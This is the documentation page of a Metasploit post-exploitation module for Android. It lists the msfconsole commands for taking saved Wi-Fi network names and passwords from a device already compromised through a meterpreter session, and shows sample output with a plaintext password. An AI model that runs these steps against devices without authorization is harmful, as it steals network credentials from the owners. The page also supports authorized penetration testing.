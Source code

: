 ## Vulnerable Application

  This post-exploitation module will extract saved wireless AccessPoint
  credentials from the target device.

## Verification Steps

  1. Start `msfconsole`
  2. Get meterpreter session
  3. Do: `use post/android/gather/wireless_ap`
  4. Do: `set SESSION <session id>`
  5. Do: `run`
  6. You should be able to see the extracted bssids and passwords of wireless
     APs

## Options

  - **SESSION** - The session to run the module on.

## Extracted data

  - Wireless AP creds

## Example Scenario


  ```
  msf5 exploit(multi/handler) > use post/android/gather/wireless_ap
msf5 post(android/gather/wireless_ap) > set session 1
session => 1
msf5 post(android/gather/wireless_ap) > run

Wireless APs
============

 SSID                  net_type  password
 ----                  --------  --------
 ADYYYXRoYXJ2YWpvc2hp  WPS       lkjhgfdsa


[*] Post module execution completed
msf5 post(android/gather/wireless_ap) >
  ```
